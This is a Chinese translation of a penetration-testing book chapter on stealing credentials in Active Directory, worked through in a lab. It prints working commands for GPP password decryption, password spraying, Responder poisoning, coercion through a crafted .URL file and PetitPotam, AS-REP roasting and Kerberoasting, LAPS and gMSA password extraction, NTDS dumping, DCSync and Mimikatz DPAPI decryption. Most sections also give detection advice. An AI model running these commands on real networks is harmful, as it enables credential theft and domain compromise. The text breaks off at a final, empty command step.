# 第四章：域中的凭证访问

选择*第四章*、*第五章*和*第六章*的顺序很困难，因为它们之间有很强的关联性。我们不会涉及如何从主机（如 LSASS、DPAPI、凭证管理器等）转储机密数据。相反，我们将专注于 Active Directory。本章从讨论如何在域中获取明文凭证开始。然后，我们将探索捕获哈希的各种技术，例如强制认证和投毒。中继攻击将在 *第五章*中讨论，*横向移动*。接下来将介绍 Kerberos 认证协议以及如何“烤”这只三头犬的不同方法。最后，我们将讨论本地密码管理的安全机制，如**本地管理员密码解决方案**（**LAPS**）和**组管理服务账户**（**gMSA**），以及如何从中恢复特权凭证。最后，还将解释 DCSync 攻击及其从 ntds.dit 域控制器导出哈希值的方式。

本章我们将涵盖以下主要内容：

+   域中的明文凭证

+   捕获哈希

+   强制认证

+   破解 Kerberos 的方法

+   域中的自动密码管理（LAPS 或 gMSA）

+   DCSync 攻击与 NTDS 凭证外泄

# 技术要求

在本章中，你需要具备以下条件：

+   VMware Workstation 或 Oracle VirtualBox，要求至少 16 GB 内存、八个 CPU 核心以及至少 55 GB 的存储空间（如果你使用快照，则需要更多空间）。

+   强烈推荐使用基于 Linux 的操作系统

+   安装了 Vagrant，并且配置了相应虚拟化平台的插件，以及安装了 Ansible。

+   在 GOADv2 项目中，我们将使用 DC02、DC03、SRV02 和 SRV03。

# 域中的明文凭证

在这一部分，我们将讨论获取明文凭证的不同方法。然而，我们不会涉及诸如**password.txt**文件（存放在共享文件夹中的）默认凭证，或者推送**WDigest**参数以便从内存中以明文形式导出密码等问题。我们也不会讨论允许在不接触 LSASS 的情况下获取凭证的 Internal Monologue 攻击[1]。我们的重点仅仅是 Active Directory。我们可能会在域中找到一台非常古老的 Windows 2000 之前的计算机，或者域可能受到 MS14-025 漏洞的影响，其中本地管理员密码被加密存储在组策略文件中。我们可以通过密码喷射或搜索 Active Directory 用户的注释字段来试试运气。

## 老旧，但仍值得尝试

最近，我遇到了一些由*Oddvar Moe*发布的关于预创建计算机账户的有趣研究[2]。显然，检查**将此计算机账户指定为预 Windows 2000 计算机**字段将使计算机账户的密码与计算机名称相同。这种情况发生在计算机账户由管理员手动创建且从未在域中使用过时。要查找这样的账户，我们需要寻找**UserAccountControl**标志值为**4128**。然后，我们可以提取计算机列表并尝试使用**CrackMapExec**登录。**STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT**错误消息会标明猜测的计算机账户密码正确。我们需要在使用计算机账户之前更改密码。这可以通过各种工具完成，例如**kpasswd.py**或**rpcchangepwd.py**。需要注意的是，使用 Kerberos 身份验证将使你无需更改计算机账户密码。这一行为由*Filip* *Dragovic*发现：https://twitter.com/filip_dragovic/status/1524730451826511872。

**组策略首选项**（**GPP**）在 Windows 2008 R2 中引入，旨在帮助系统管理员进行各种配置更改。最危险的一个功能是能够在域计算机上设置本地管理员密码。问题在于密码存储在每个经过身份验证的用户都能读取的 XML 文件中，文件路径为**\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\**。虽然密码使用 AES-256 密钥进行了加密，但微软在 MSDN 上发布了私钥，从而使得加密变得毫无意义。*Sean Metcalf*的一篇博客详细解释了这一点，博客地址：[3]。这个攻击基本上由两条命令组成——*Oddvar Moe*提供的一条命令用于搜索该值，和*0x00C651E0*提供的 Linux 一行命令用于解密密码：

```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

还有其他工具，如**Gpp-Decrypt**和 Metasploit 的**post/windows/gather/credentials/gpp**模块也可用。修补程序发布后，微软彻底移除了 GPP 中的此功能。

## 描述字段中的密码

在枚举过程中，我们可能会幸运地在 Active Directory 中用户配置文件的描述字段找到密码。以下截图展示了一个例子：


图 4.1 – 描述字段中的密码

即使描述字段中没有密码，检查它也是一个好主意，因为我们可能会找到关于账户用途的有用信息、IT 工作人员的指示以及其他有价值的内容。然而，这样的账户可能是蜜罐。

## 密码喷洒

另一种猜测正确凭证的方式是进行密码喷射。我们可以采取不同的方式，例如，尝试将用户名作为密码。在开始之前，非常重要的一点是要先查看密码策略，以避免触发锁定。如果**NULL**会话绑定不被允许，我们需要一组有效的凭证来拉取密码策略。我们可以通过一个非常强大的工具——**CrackMapExec**[4]来实现：

```
crackmapexec smb 192.168.56.0/24 -u jeor.mormont -p '_L0ngCl@w_' --pass-pol
```

命令的结果如下面的截图所示：



图 4.2 – 密码策略枚举

我们可以使用各种 PowerShell 命令来拉取策略，例如来自 PowerView 的**Get-DomainPolicyData**命令，或者来自 Active Directory 模块的本地**Get-ADDefaultDomainPasswordPolicy**命令。

现在我们已经了解了密码策略和锁定规则，并且希望能够获取到用户列表，我们可以开始进行喷射攻击。CrackMapExec 提供了执行喷射的不同选项，例如，使用列表、一对一匹配以及字典列表。让我们尝试进行一种用户名和密码相同的喷射攻击。我们可以运行一个命令，尝试通过 SMB 登录子网内的所有机器（这种方式非常显眼，并且不符合操作安全要求）：

```
crackmapexec smb 192.168.56.0/24 -u user.txt -p user.txt --no-bruteforce --continue-on-success
```

上一个命令的输出如下面的截图所示（用户**hodor**的密码是**hodor**）：


图 4.3 – 成功的密码喷射

还有其他可以用于喷射的工具，比如**kerbrute**[5]（*ropnop*开发）和**DomainPasswordSpray**[6]（*dafthack*开发）。

在进行喷射攻击之前，仔细枚举域用户是非常重要的，以避免触发可能的诱饵账户。此外，合理选择喷射之间的间隔，因为大量的失败登录尝试（事件 ID 4625）将会触发调查。

在下一节中，我们将讨论如何捕获哈希并避免术语混淆。

# 捕获哈希

本节将专注于捕获哈希，这是一个广为人知的攻击中的第一步：NTLM 转发。为了更好地理解这一主题，我强烈建议你阅读关于该攻击的最全面的指南[7]。

首先，我们需要稍微介绍一下理论部分。NTLM 认证协议用于网络认证，并且有两个版本。它使用*零知识证明*的概念，意味着凭证从未通过网络传输。它采用挑战-响应机制，其中服务器发送一组随机数据，客户端则以一个值响应，这个值是将这些数据与一些额外参数和客户端的密钥一起哈希后的结果。作为攻击者，我们的目标是捕获客户端有效的 NTLM 响应。接下来，我们可以尝试破解哈希或转发它。

NTLMv1 已经被弃用，且不被认为是安全的。然而，在较旧的环境中，仍然有可能看到 NTLMv1 的使用。捕获哈希有两种技术：**中间人攻击**（**MITM**）和**强制认证**。

注意

如果以下文本中有任何不清楚的地方，建议您参考此资源：[`www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications`](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications)。

让我们从与网络相关的攻击开始：

+   **ARP 中毒**发生在攻击者位于客户端和服务器之间时。此攻击的成功率取决于网络拓扑结构和加固情况。此外，它可能导致严重的网络中断。

+   **DNS 欺骗**要求攻击者通过 ARP/DHCPv6 欺骗在网络中引入恶意 DNS 服务器，以便客户端可以通过该服务器进行通信。然后，攻击者可以回复收到的客户端请求。

+   **DHCP 中毒**是通过向客户端的 DHCP 回复中注入恶意 WPAD 或 DNS 服务器地址来实现的。客户端请求**wpad.dat**时会触发恶意服务器请求认证。

+   **DHCPv6 欺骗**之所以可能，是因为 Windows 中的 IPv6 优先级高于 IPv4，并且它是一个多播协议。攻击者可以为客户端提供恶意配置，稍后继续进行 DNS 欺骗。

+   **本地链接多播名称解析（LLMNR）、NetBIOS 名称服务（NBT-NS）和多播域名系统（mDNS）欺骗**是可能的，因为 Windows 环境中使用了多播名称解析协议。如果 DNS 解析失败，这些协议将作为回退选项进行解析。攻击者可以回答查询，然后要求客户端进行身份验证。

+   **WSUS 欺骗**需要 ARP 中毒和一个恶意 WSUS 服务器来向客户端部署恶意更新。

+   **ADIDNS 中毒**是针对 Active Directory 集成 DNS 的攻击。其思路是注入恶意 DDNS 记录。

+   **WPAD 欺骗**利用了帮助客户端定位代理配置脚本的功能。在 MS16-077 安全更新之后，此攻击只能通过 ADIDNS 或 DHCPv6 欺骗实现。

如果网络中允许使用 NTLMv1 协议，我们可以尝试将身份验证降级到 NTLMv1，以获得 NTLMv1 响应。它使用弱 DES 加密。我们将一个神奇的挑战值（**1122334455667788**）添加到**Responder**的配置文件（**/etc/responder/Responder.conf**）中并启动它：

```
sudo responder -I eth1 –-lm --disable-ess
```

在我们的实验室中，NTLMv1 未启用；然而，在启动 Responder 之后，几分钟内，我们捕获了用户**eddard.stark**的 NTLMv2 响应：

```
sudo responder -I eth1
```


图 4.4 – 捕获 NTLMv2 响应

为了模拟这一活动，实验室作者在**winterfell**上创建了一个计划任务，用户**eddard.stark**尝试通过带有拼写错误的 DNS 名称通过 SMB 连接到服务器。由于 DNS 服务器无法解析该名称，广播协议被触发，我们捕获到了 NTLMv2 响应。

为了减少这种捕获的可能性，理想情况下，我们需要停止使用 NTLM。如果无法做到这一点（这通常是情况），应在网络层面应用强密码策略并严格加固。其思路是禁用所有不必要的多播协议和 NTLMv1（在组策略中，将 **LAN Manager** 设置为 **仅发送 NTLMv2 响应。拒绝 LM 和 NTLM**）。我们将在下一章提供有关减轻中继攻击的建议。

但是，如果这些网络协议被禁用且 MITM 实际上不可行怎么办？我们可以通过几种方式强制客户端进行身份验证。最近，*MDSec*[9] 发布了一些有趣的研究。我们可以将某些类型的文件放置在可写共享文件夹中，Windows 会自动进行身份验证并将 NTLM 响应发送到远程机器：**SCF**、**URL**、**library-ms** 和 **searchConnector-ms**。一个重要的说明是，攻击者的机器应该位于本地内联网区域内，这意味着可以通过 UNC 路径建立网络连接。该研究的思路是使用启用 WebDAV 的 HTTP 服务器来收集哈希，这被称为 **farmer**，而用于创建文件的工具被称为 **crop**。以下两个命令将捕获哈希：

```
farmer.exe 8888 120
crop.exe \\castelblack\public legit.url \\winterfell@8888\legit.ico
```

我们还可以手动创建一个 .URL 文件。其原理是我们将一个环境变量放入文件中，这样受害者机器上的资源管理器在查看文件夹时，会在发送请求之前主动查找该变量，从而有效地连接到我们的文件共享，无需任何用户交互。这种行为使我们能够通过 Responder 捕获 NTLMv2 响应。该 .URL 文件的内容可能如下所示：

```
[InternetShortcut]
URL=any
WorkingDirectory=any
IconFile=\\192.168.56.100\%USERNAME%.icon
IconIndex=1
```

如下所示，**jon.snow** 打开一个公开共享的文件夹时，在 Responder 中可以看到结果：


图 4.5 – 打开公共共享文件夹并使用 .URL 文件后捕获的 NTLMv2 响应

注意

盗取 NTLMv2 响应的其他有趣位置在 *Osanda* *Malith* 的博文中有详细描述：[`osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/`](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)。

为了防止之前提到的文件类型强制身份验证，我们需要通过组策略设置关闭网络文件夹的缩略图显示。接下来，我们将介绍另一种强大的技术，用于捕获哈希，如果之前的所有尝试都未成功的话。

# 强制身份验证

我们已经讨论了 MITM 能力，现在将详细讨论各种强制身份验证的方法。其思路是标准用户可以强制目标机器账户（通常是域控制器）连接到任意目标。这是通过自动身份验证尝试实现的。你可以在一个包含 15 种已知方法的 5 种协议的库中找到相关内容[10]。接下来，我们将深入探讨每种方法。

## MS-RPRN 滥用（PrinterBug）

这是一个 *不会修复* 的 bug，默认在每个 Windows 环境中启用。其原理是，攻击者通过使用域用户名和密码，可以触发 **RpcRemoteFindFirstPrinterChangeNotificationEx** 方法，并强制通过 SMB 进行身份验证。我们将在后面讨论 Kerberos 的无约束委派时在*第五章*中演示此攻击。此滥用的常用工具名为 **SpoolSample**[11]，可在 GitHub 上找到。

## MS-EFSR 滥用（PetitPotam）

**加密文件系统远程**（**EFSR**）协议可以通过多个 RPC 调用滥用，如 **EfsRpcOpenFileRaw**，迫使 Windows 主机对其他计算机进行身份验证。此 RPC 接口可通过不同的 SMB 管道访问，包括在*第三章*中讨论的 **\pipe\samr** 和 **\pipe\lsarpc**。为了演示这一攻击，我们将使用此概念验证[12]。

我们将在 **castelblack** 上运行此命令，带有攻击者和域控制器的 IP 地址：

```
PetitPotam.exe 192.168.56.100 192.168.56.11 1
```

我们将使用 Responder 捕获域控制器的哈希：


图 4.6 – PetitPotam 强制身份验证成功

在*第八章*中，我们将展示如何将域控制器的哈希转发到运行活动目录证书服务的服务器，有效地使我们能够危及整个域。

## WebDAV 滥用

WebDAV 滥用的想法是找到在域中运行此服务的计算机。**WebclientServiceScanner**[13] 工具可以帮助完成此任务。如果没有客户端运行 **WebClient** 服务，则可以通过 **searchConnector-ms** 文件[14] 远程启用该服务。然后，我们可以使用之前的 **PetitPotam**，结合 **基于资源的受限委派**（**RBCD**）滥用。我们将在 *第五章* 的 Kerberos 部分讨论 RBCD 滥用。

## MS-FSRVP 滥用（ShadowCoerce）

**微软文件服务器远程 VSS 协议**（**MS-FSRVP**）用于在远程计算机上创建影像副本。支持两种方法。调用可以通过 SMB 命名管道进行。如果目标计算机未启用 **文件服务器 VSS 代理服务**，则无法进行攻击。此外，补丁 KB5014692 阻止了强制攻击。我能够运行概念验证[15]，但未能在 Windows Server 2019（**castelblack**）上获得 NTLMv2 响应。以下是强制尝试的结果截图：


图 4.7 — ShadowCoerce 运行中

下一个方法也需要目标计算机上有一个服务在运行。

## MS-DFSNM 滥用（DFSCoerce）

与其他强制方法相同，该方法使用通过微软的分布式文件系统命名空间管理协议中的 SMB 命名管道（**\pipe\netdfs**）提供的 RPC 接口。*Filip Dragovic* 发现了两种方法（**NetrDfsAddStdRoot** 和 **NetrDfsRemoveStdRoot**），可以用来强制认证。概念验证代码已发布在 GitHub 上[16]。只需对运行 DFS 的域控制器运行该命令即可。

下一节将涵盖另一种认证协议——Kerberos。理解该协议的机制和工作流对于进一步理解本书内容至关重要。

# 烤制三头犬

我们不可避免地将达到一个必须讨论并理解 Kerberos 的时刻。该认证协议旨在通过提供有效的票证来访问网络中的服务。

## Kerberos 101

在我们讨论可用的攻击途径之前，我们需要更多地理解协议的工作原理。作为一个好的起点，我推荐 *hackndo* 的博客文章[17]。

我们有三个主要的主体——客户端、服务和**密钥分发中心**（**KDC**），即域控制器。以下图表[18]，该图表发布于微软官网，解释了它的工作原理：



图 4.8 – Kerberos 概述

现在让我们更详细地一步一步跟随认证过程。

1.  **KRB_AS_REQ**（**Kerberos 认证服务请求**）由客户端发送到 KDC，并包含各种信息，最重要的是一个时间戳，该时间戳使用密码的哈希版本进行加密。如果客户端存在，那么 KDC 将尝试通过使用接收到的客户端密码的哈希值解密时间戳。如果一切顺利，会生成会话密钥。

1.  **KRB_AS_REP**（**Kerberos 认证服务回复**）将包含**票证授予票证**（**TGT**），该票证由客户端的密码哈希会话密钥加密，包含有效期和其他信息。它由 KDC 密钥加密，因此只有域控制器可以读取此票证。

1.  **KRB_TGS_REQ**（**Kerberos 票证授予服务请求**）由客户端在想要使用某个服务时发送。它包含 TGT、服务和认证器。认证器由*步骤 2*中的会话密钥加密，并包含用户名和时间戳。如果 TGT 中的会话密钥成功解密了认证器，并且数据匹配，那么认证成功。

1.  **KRB_TGS_REP**（**Kerberos 票证授予服务回复**）将包含请求的服务名称、客户端的名称以及服务和客户端的会话密钥。票证使用服务的密钥和*步骤 2*中的会话密钥加密。实际上，客户端将解密票证，并提取一个新的会话密钥和票证，以与服务进行通信。

1.  **KRB_AP_REQ**（**Kerberos 应用请求**）由客户端发送，包含新的身份验证器和 TGS。身份验证器使用 TGS 中的会话密钥加密。验证方式如*步骤 2*所示。

现在，我们将讨论事情可能出错的情况。以下攻击执行起来相当简单，但在执行时我们需要保持 OpSec 意识。

## ASREQRoast

我们将从一种不利用协议配置错误且需要强大 MITM 攻击的攻击开始。这个思路是拦截 KRB_AS_REQ 数据包并尝试破解用户密码的哈希。该哈希用于加密预身份验证阶段的时间戳。你可以阅读详细讨论此攻击的原始研究[19]。本质上，我们应该拥有 MITM 位置；我们被动地收集流量，然后使用如**Pcredz**[20]之类的工具提取哈希，稍后可以使用 hashcat[21] 来尝试破解。这种攻击的主要警告是需要获取 MITM 位置。

## KRB_AS_REP 烤制（ASREPRoast）

当在 Active Directory 中配置错误，启用了**不要求 Kerberos 预身份验证**时，就可能发生此攻击。可以在用户对象属性中看到这一点：



图 4.9 – 启用了预身份验证的用户

对于攻击执行，我们将使用 Rubeus[22]。但在输入命令之前，我们需要讨论一些 OpSec 考虑事项。根据文档，我们知道 Rubeus 会找到所有配置错误的帐户并尝试烤制它们。这将在域控制器上生成安全事件，*ID=4768* 和某些值（**票据加密类型 0x17，预身份验证** **类型：0**）：



图 4.10 – 发现 ASREPRoasting 攻击

更好的方法是先提取配置错误的帐户列表，进行更多的侦查（例如，检查蜜罐帐户），然后再进行烤制。我们可以使用 PowerView 来执行此操作：

```
Get-DomainUser -PreauthNotRequired -verbose
```

LDAP 搜索过滤器和输出显示在以下截图中：



图 4.11 – 易受 AS-REP 烤制攻击的用户列表

现在，我们可以运行以下命令：

```
Rubeus.exe asreproast /user:brandon.stark
```

输出如下图所示：



图 4.12 – 哈希已准备好破解

我们可以使用**john**（**--format=krb5asrep**）或**hashcat**（**-m 18200**）来破解哈希。

为了减轻此攻击，我们可以尝试以下措施：

+   默认情况下，预身份验证已启用，因此请检查为什么某些帐户被禁用了此功能

+   对禁用预身份验证的帐户应用额外的密码复杂性要求

+   确保只有特权用户可以更改预身份验证属性

+   监控更改预身份验证属性的事件（ID 4738 和 ID 5136）

+   监控烤制尝试（ID 4768 和 ID 4625）

## Kerberoasting

该攻击的核心思想是请求一个**服务票证**（**ST**），并破解哈希以获取服务账户的密码。为了能够请求 ST，我们需要在域中进行身份验证（拥有有效的 TGT）并知道**服务主体名称**（**SPN**）。SPN 是林中唯一的服务名称。在大多数情况下，服务是由机器账户运行的，这些账户有着长且复杂的密码。但如果一个服务账户有手动设置的密码和 SPN，我们可以试试运气。

有一篇出色的博客文章详细介绍了 Kerberoasting 和 OpSec 的内容，并附有示例[23]。我们会在这里涵盖其中的内容，但原始研究是绝对值得一读的。

总的来说，策略保持不变——找到带有 SPN 的账户并进行 roasting。AS-REP roasting 中可能发生的 OpSec 失败同样适用于这里，以及以下内容：

+   LDAP 搜索过滤器过于宽泛

+   在短时间内请求了多个 ST（安全事件 ID 为 4769），包括蜜罐账户

+   请求带有加密降级的 ST

现在，我们将逐步讨论如何避免失败。枚举是成功的关键。根据林的大小，我们可以进行一般的 LDAP 搜索，重点收集有助于我们选择正确目标的信息。在我们的实验室中，最初的枚举可以通过过滤用户来完成，排除掉**krbtgt**和禁用的账户：

```
([adsisearcher]'(&(samAccountType=805306368)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))').FindAll()
```

我们有一个很有前途的候选用户，名为**sql_svc**。通过 PowerView，我们可以确认这个用户拥有一个 SPN：



图 4.13 – 找到带有 SPN 的用户

为了确保我们不是在处理一个蜜罐，我们可以检查该对象是否确实存在于域中。这个对象的权限是什么？我们真的能从 roasting 它中受益吗？此外，它的**pwdLastSet**和**lastLogon**属性应该是显而易见的。接下来的聪明做法是检查**MsDS-SupportedEncryptionTypes**属性中的加密类型。在 Rubeus 中，有一个参数可以过滤启用 AES 的账户：**/rc4opsec**。最后一步，运行以下命令来获取哈希值（**/nowrap**选项会将哈希值输出为一行）：

```
Rubeus.exe kerberoast /user:sql_svc
```

执行前述命令后的输出如下所示：



图 4.14 – Kerberoasting 攻击

然后，我们可以使用 **john** （**--format=krb5tgs**）或 **hashcat**（**-m 13100**）来破解这个哈希。在我们讨论缓解措施之前，有一件重要的事情需要补充。如果攻击者有权将 SPN 添加到其他账户上，就可以执行有针对性的 Kerberoasting 攻击。我们将在 *第六章*中详细讨论这个问题，*权限提升*。

有一个由*Luct0r*编写的 C# 工具，完全实现了博客文章中的 OpSec 推荐，且可以在 GitHub 上找到[24]。

为了减轻此类攻击，我们需要避免将 SPN 分配给用户帐户。如果无法避免，我们可以使用 **组管理服务帐户** (**gMSA**) 进行自动密码管理，接下来我们将讨论这一点。此外，蜜罐帐户、事件日志的及时记录以及搜索过滤器可以帮助识别攻击。

下一部分将展示如果域安全增强配置错误，攻击者如何滥用这些增强功能。

# 域中的自动密码管理

之前的一些攻击，如 MS14-025 和 Kerberoasting，推动了密码管理自动化的发展。为了解决本地管理员密码轮换问题，LAPS 应运而生。为了应对 Kerberoasting，微软稍后引入了 gMSA。

## LAPS

现在，我们将在 **essos** 域的 **braavos** 上部署 LAPS，并讨论可能的攻击路径。我将遵循此部署指南[25]。总体步骤包括组件安装、Active Directory 架构扩展、在计算机上部署代理和配置组策略。

安装过程非常简单。只需下载 **.msi** 文件并进行部署。运行以下命令后，您的架构将会扩展（以架构管理员身份运行）：

```
Update-AdmPwdADSchema
```

输出将类似于以下截图所示：


图 4.15 – 架构更新成功

下一步是最关键的，因为此处的配置错误可能导致被攻破。我们需要指定可以查看管理员密码的用户。默认情况下，这些用户是 **SYSTEM** 和“**域管理员**”组中的成员。这一次，我们将添加非特权用户到此组中：

```
Set-AdmPwdReadPasswordPermission -OrgUnit "OU=Servers,DC=essos,DC=local" -AllowedPrincipals viserys.targaryen
Set-AdmPwdComputerSelfPermission -OrgUnit "OU=Servers,DC=essos,DC=local"
```

以下截图展示了命令的输出：



图 4.16 – 授予用户 LAPS 读取权限

现在，我们将换个角度，讨论攻击者的选择。首先，我们需要了解 LAPS 是否已安装。有几种方法可以得到答案：

+   使用 PowerView 查看计算机对象属性中的 **ms-Mcs-AdmPwdExpirationTime** 属性

+   在 **C:\Program Files\LAPS\CSE** 中搜索 **AdmPwd.dll**

+   搜索名为 *LAPS*、*passwords* 或类似的 **组策略对象** (**GPO**)，但不要完全依赖命名

考虑到我们作为域用户登录，我们应该能够发现哪些人被允许读取 LAPS 密码。这可以借助 BloodHound 和 PowerView 来完成。此外，**LAPSToolkit**[26] 可以作为执行完整攻击链的工具。运行 PowerView 中的 **Invoke-ACLScanner** 后的输出如以下截图所示：


图 4.17 – 发现具有 ReadLAPS 权限的用户

如果我们已经妥协了这样的用户，我们可以通过 **Get-LAPSPasswords** PowerShell 命令获取本地管理员密码[27]。此操作的输出如以下截图所示：



图 4.18 – 本地管理员密码泄露

我们在此可以引入的唯一缓解措施是小心谁被委托有权揭示密码，并确保通过组策略强制设置过期时间。这将帮助我们确保密码定期更改。

## gMSA

gMSA 在 Windows Server 2016 中引入，但可以在 Windows Server 2012 及以上版本中使用。它的理念与 LAPS 的创建有许多相似之处，但与本地管理员账户不同，它用于服务账户。

gMSA 是活动目录中的一种对象类型，具有属性和权限。最有趣的属性是**msDS-ManagedPassword**（包含密码的二进制大对象）和**msDS-GroupMSAMembership**（谁可以读取该二进制大对象）。让我们部署 gMSA 并讨论攻击步骤。

第一步是使用以下两个命令创建 gMSA（以域管理员身份运行，而不是在域控制器上运行）：

```
Add-KdsRootKey -EffectiveTime (Get-Date).AddHours(-10)
New-ADServiceAccount -Name sql_acc -DNSHostname braavos.essos.local
```

我们可以看到该账户已成功创建在活动目录用户和计算机控制台中：



图 4.19 – gMSA 创建成功

第二步是设置允许检索明文密码的主体。我们将再次在一个非特权用户上设置主体，以演示攻击：

```
Set-ADServiceAccount -Identity 'sql_acc' -PrincipalsAllowedToRetrieveManagedPassword 'viserys.targaryen'
```

攻击者可以使用以下命令来获取关于能够检索受管理密码的主体的信息：

```
Get-ADServiceAccount -filter * -prop * | select name,PrincipalsAllowedToRetrieveManagedPassword
```

命令的输出如下所示：


图 4.20 – 用户检索 gMSA 密码

第三步是妥协用户并将密码作为二进制大对象提取，攻击者随后可以使用以下命令和 **DSInternals**[28] 模块将其转换为 NT 哈希：

```
$pwd = Get-ADServiceAccount -identity sql_acc -Properties msds-ManagedPassword
$pw = ConvertFrom-ADManagedPasswordBlob $pwd.'msds-managedpassword'
ConvertTo-NTHash $pw.securecurrentpassword
```

以下截图显示了 **SecureCurrentPassword** 和 **CurrentPassword** 的 UTF-16 格式。我们还将 **SecureCurrentPassword** 转换为 NT 哈希：


图 4.21 – gMSA 密码的 NT 哈希

然后可以使用该哈希值进行传递哈希攻击，我们将在下一章中讨论这种攻击。

但是，如果没有安装 AD 模块，我们可以使用 Windows 编写的 **GMSAPasswordReader**（由 *rvazarkar* 编写），或在 Linux 上使用 **gMSADumper**（由 *micahvandeusen* 编写）。唯一的注意事项是我们需要账户名来转储其哈希。以具有读取 gMSA 密码权限的用户身份运行简单命令：

```
.\GMSAPasswordReader.exe --Accountname sql_acc
```

我们将获得以下输出：


图 4.22 – 使用 GMSAPasswordRead 工具的结果

和往常一样，缓解措施是确保正确设置 GMSA 的权限。同时，可以配置并监控事件日志中的事件 ID 4662，这将显示哪个账户查询了 **msDS-ManagedPassword** 属性。

# NTDS 秘密

我们将讨论 NTDS 密码提取，因为此攻击仅适用于域控制器。ntds.dit 文件是一个数据库，用于存储 Active Directory 数据，包括哈希值。该文件位于 **%systemroot\NTDS\ntds.dit** 和 **%systemroot\System32\ntds.dit** 中。它会持续被使用，因此不能像其他文件一样直接复制。ntds.dit 数据有多种转储方式[31]：

+   **ntdsutil.exe** – Active Directory 维护工具

+   **VSSAdmin** – 卷影复制

+   **vshadow**

+   **DiskShadow**

+   **esentutl.exe**

+   **NinjaCopy** 来自 PowerSploit

+   **Copy-VSS** 来自 Nishang

+   **windows/gather/credentials/domain_hashdump** 来自 Metasploit

对于我们的示例，在域控制器上，我们将运行 **ntdsutil.exe**，它将保存 ntds.dit 文件和 **SYSTEM** 注册表 Hive，然后我们可以将其移动到我们的机器上，并使用 **secretsdump** 提取哈希：

```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit
secretsdump -ntds ntds.dit.save -system system.save LOCAL
```

输出如下面的截图所示：



图 4.23 – 从 NTDS.dit 提取的哈希

为了检测转储，我们需要启用命令行审计，并监视事件 ID 4688，以查找使用前述工具的迹象。在应用程序日志中，检查 NTDS 数据库的创建和分离，事件 ID 为 325、326、327 和 216。

在下一节中，我们将执行一个 DCSync 攻击，针对域控制器进行，该攻击不需要我们在机器上运行任何命令。我们可以通过网络进行，如果配置不当，我们的用户可能会失去所有权限。

# DCSync

DCSync 使用域控制器的 API 来模拟从远程域控制器的复制过程。简而言之，DCSync 通过 RPC 请求执行域控制器的 **DsGetNCChanges** 操作，访问 **Directory Replication Service API**（**DRSUAPI**）。此攻击需要扩展权限，**DS-Replication-Get-Changes** 和 **DS-Replication-Get-Changes-All**，这些权限默认只分配给“域控制器”、“域管理员”、“管理员”和“企业管理员”组。

如果我们能够通过扩展权限入侵用户，我们可以运行 **secretsdump** 获取域中的所有哈希：

```
/usr/bin/impacket-secretsdump -outputfile 'something' 'essos'/'daenerys.targaryen':'BurnThemAll!'@'192.168.56.12'
```

前述命令产生的输出如下所示：



图 4.24 – DCSync 攻击结果

正如我们所见，DCSync 攻击非常强大，能够完全接管整个域。为了减少攻击痕迹，攻击者可能会直接在域控制器上运行此攻击，避免被网络检测到。然而，这需要域管理员权限。

可以通过网络流量分析或事件日志监控来检测攻击。我们可以分析朝向域控制器的流量，检查是否有其他域控制器发起了**DsGetNCChanges**操作的 DRSUAPI RPC 请求。这可以借助名为**DCSYNCMonitor**[32]的工具完成。该工具接受域控制器列表，并且当来自未知源的请求出现时，会生成事件。

在 Windows 事件日志中，我们可以检查事件 ID 4662，并评估**属性**值以控制访问权限：

+   **1131f6ad-9c07-11d1-f79f-00c04fc2dcd2** (**DS-Replication-Get-Changes-All**)

+   **89e95b76-444d-4c62-991a-0facbeda640c** (**DS-Replication-Get-Changes-In-Filtered-Set**)

+   **1131f6aa-9c07-11d1-f79f-00c04fc2dcd2** (**DS-Replication-Get-Changes**)

然后，我们需要检查**帐户名称**的值是否为域控制器。如果不是，那么我们可以可靠地检测到 DCSync。即使 DCSync 在域控制器本地运行，事件 ID 4662 仍会出现在日志中。

另外，鉴于 DCSync 使用 RPC 协议，可以通过基于 DRSUAPI 的 UUID 在端点上使用 ETW 进行检测。将**DSRUAPI UUID**（**e3514235-4b06-11d1-ab04-00c04fc2dcd2**）和**OpNum 3**（**IDL_DRSGetNCChanges**）关联起来，将是恶意活动的良好指示器[33]。

# 通过 DPAPI 以明文方式转储用户凭据

让我们通过一个场景来进行说明。在遵循内部安全政策并经过安全意识培训后，用户开始使用 Windows 中的凭据管理器，而不再使用**password.txt**文件。凭据管理器是 Windows 内置的密码管理器，使用**数据保护 API**（**DPAPI**）。DPAPI 允许程序（如 Chrome 或 RDP）透明地存储敏感数据。数据存储在用户目录中，并通过从用户密码派生的密钥进行加密。我们的目标用户**khal.drogo**在其凭据管理器中存储了 SQL **系统管理员**（**SA**）帐户的凭据。攻击者已经获得了该用户的域管理员权限，并打算以明文形式提取 SA 密码。存在三种攻击场景：

+   获取**khal.drogo**的主密钥并进行解密

+   如果您具有本地管理员权限，则提取所有本地主密钥

+   使用**Domain Admins**组中的帐户提取所有备份主密钥

出于演示目的，我们选择了第三个路径。所有命令都在**daenerys.targaryen**帐户下运行（该帐户是“域管理员”组的成员）。

成功提取密码所需的步骤如下：

1.  定位凭据文件。文件被隐藏，并位于以下路径：

    ```
    dir /a:h C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\*
    ```

1.  使用 Mimikatz 的**dpapi::cred**命令和凭据文件的路径查找**guidMasterKey**值：

    ```
    mimikatz.exe "dpapi::cred /in:C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\value_from_step_1"
    ```

1.  从域控制器提取备份主密钥：

    ```
    mimikatz.exe "lsadump::backupkeys /system:meereen.essos.local /export"
    ```

1.  获取用户**khal.drogo**的主密钥：

    ```
    mimikatz.exe "dpapi::masterkey /in:"C:\Users\khal.drogo\AppData\Roaming\Microsoft\Protect\{USER_SID}\guidMasterKey_from_step_2" /pvk:private_keyfile_from_step_3.pvk
    ```

1.  解密保存的凭据：

    ```
